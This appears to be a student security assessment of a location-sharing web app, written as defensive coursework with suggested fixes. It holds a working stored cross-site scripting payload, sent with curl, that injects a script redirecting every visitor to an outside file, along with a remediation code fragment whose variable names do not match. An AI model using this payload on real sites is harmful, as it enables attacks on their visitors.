




The product is a web application that upon visiting, displays a google map of the user's location and the locations of nearby users and landmarks within a mile. I was hired to identify security vulnerabilities of the application.
To test, I wrote practice scripts in a scrap html file, used curl to send purposefully untrustworthy data to the server, and managed the manually inserted test entries from the mLab website.
(Provide an overview of all the security and privacy issues you identified. This section should be written for non-technical managers who do not have technical expertise and do not have time to read the entire document. Write this section using lay language.)
curl --data "login=<script> document.location.href = 'https://raw.githubusercontent.com/tuftsdev/comp20-jyang/master/security/examples/virus.txt?token=Ac8Ju3YoSwLSPnt2T127XWdADCoewghzks5aNFSdwA%3D%3D'; </script>&lat=0&lng=0" https://stark-journey-75501.herokuapp.com/sendLocationaccessing https://stark-journey-75501.herokuapp.com/ will cause an automatic redirect to opening the file "virus.txt" in the browser. If the file was a .exe file instead, or any file that's automatically downloaded if it can't be opened in a browser window, serious harm could be caused.


var login = request.body.login.replace(/[^\w\s]/gi, '');Another solution that preserves the special characters is to html encode the string login input before storing in the database, which can be done with the npm htmlencode package detailed here.
With the way the app is set up now, the issue does not have much impact, since all the login entries are returned anyway at the '/' homepage. However, it is still important to remove the user's ability to access data on other users to which they should not be privy, in case the app is further developed in a way that information on all users is no longer willingly released.


coll.find().toArray(function (err, checkins) {
if (!err) {
var userlogins = [];
for (var i = 0; i < results.length; i++)
if (login == checkins[i].login)
userlogins.push(checkins[i]);
res.send(logins);
Clearly, you can never trust user input, so if the application needs to take in user input, safeguards are necessary to strip it of danger.